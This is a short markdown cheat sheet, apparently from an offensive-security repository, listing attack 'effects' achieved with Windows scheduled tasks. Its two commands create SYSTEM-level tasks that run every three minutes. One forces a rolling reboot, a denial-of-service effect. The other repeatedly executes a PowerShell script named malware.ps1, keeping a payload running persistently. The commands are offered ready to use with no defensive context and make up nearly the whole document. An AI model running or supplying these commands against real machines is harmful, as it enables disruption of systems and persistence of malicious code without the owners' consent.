 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/effect.md#table-of-contents">Top of Page</a> |
  <a href="/CheatSheets/effect.md#run-a-script">Bottom of Page</a>
</p>

# Cheatsheets - Effect
## Table of Contents
* [Scheduled Tasks](#scheduled-tasks)
  * [Rolling Reboot](#rolling-reboot) 
  * [Run a Script](#run-a-script)

## Scheduled Tasks
### Rolling Reboot
```bash
schtasks.exe /create /ru "SYSTEM" /sc minute /mo 3 /tn "Rolling Reboot" /tr "shutdown /r /t 000" 
```

### Run a Script
```bash
schtasks.exe /create /ru "SYSTEM" /sc minute /mo 3 /tn "Run a Script" /tr "powershell -c 'C:\malware.ps1'" 
```
